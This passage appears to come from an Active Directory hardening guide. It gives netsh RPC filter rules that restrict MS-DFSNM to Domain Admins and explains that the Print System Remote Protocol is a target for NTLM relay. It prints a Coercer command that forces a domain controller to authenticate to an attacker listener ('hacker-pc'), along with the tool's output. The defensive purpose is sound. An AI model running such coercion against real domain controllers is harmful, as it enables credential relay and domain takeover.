 The following sequence of `netsh.exe` commands will restrict MS-DFSNM connections to the members of the *Domain Admins* group:

```txt
rpc filter

add rule layer=um actiontype=permit filterkey=43873c58-e130-4ffb-8858-d259a673a917
add condition field=if_uuid matchtype=equal data=4FC742E0-4A10-11CF-8273-00AA004AE673
add condition field=remote_user_token matchtype=equal data=D:(A;;CC;;;DA)
add filter

add rule layer=um actiontype=block filterkey=0a239867-73db-45e6-b287-d006fe3c8b18
add condition field=if_uuid matchtype=equal data=4FC742E0-4A10-11CF-8273-00AA004AE673
add filter
```

#### \[MS-RPRN\]: Print System Remote Protocol

The [\[MS-RPRN\]: Print System Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)
with UUID [12345678-1234-ABCD-EF00-0123456789AB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/848b8334-134a-4d02-aea4-03b673d6c515)
is exposed over the `\PIPE\spoolss` named pipe and is a popular target for initiating NTLM relay attacks:

```shell
coercer coerce --username john --password 'Pa$$w0rd' --domain 'contoso.com' --target-ip dc01.contoso.com --listener-ip hacker-pc --filter-protocol MS-RPRN --always-continue
```

```txt
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target dc01.contoso.com
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,54795,51120,51124,38901,38902,56954,5722
[+] DCERPC port '51120' is accessible!
   [+] Successful bind to interface (12345678-1234-ABCD-EF00-0123456789AB, 1.0)!
      [!] (NO_AUTH_RECEIVED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotification( pszLocalMachine='\\10.213.0.100\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotificationEx( pszLocalMachine='\\10.213.0.100\x00')
[+] SMB named pipe '\PIPE\spoolss' is accessible!
   [+] Successful bind to interface (12345678-1234-abcd-ef00-0123456789ab, 1.0)!
      [!] (NO_AUTH_RECEIVED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotification( pszLocalMachine='\\10.213.0.100\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotificationEx( pszLocalMachine='\\10.213.0.100\x00')
[+] All done! Bye Bye!
```


[Admin Model]: https://petri.com/use-microsofts-active-directory-tier-administrative-model/
[System Center Configuration Manager]: https://learn.microsoft.com/en-us/mem/configmgr/core/understand/introduction
[System Center Operations Manager]: https://learn.microsoft.com/en-us/system-center/scom/get-started
[Network Location Awareness]: https://learn.microsoft.com/en-us/windows/win32/winsock/network-location-awareness-service-provider-nla--2
[Privileged Access Workstation]: https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-devices
[Attack Surface Reduction]: https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide
[Remote Procedure Call]: https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
[Active Directory Domain Services]: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Remote Server Administration Tools]: https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
[Link-Local Multicast Name Resolution]: https://www.rfc-editor.org/rfc/rfc4795.html
[MSS (Legacy)]: https://techcommunity.microsoft.com/t5/microsoft-security-baselines/the-mss-settings/ba-p/701055
[MS Security Guide]: https://learn.microsoft.com/en-us/deployoffice/security/security-baseline#ms-security-guide-administrative-template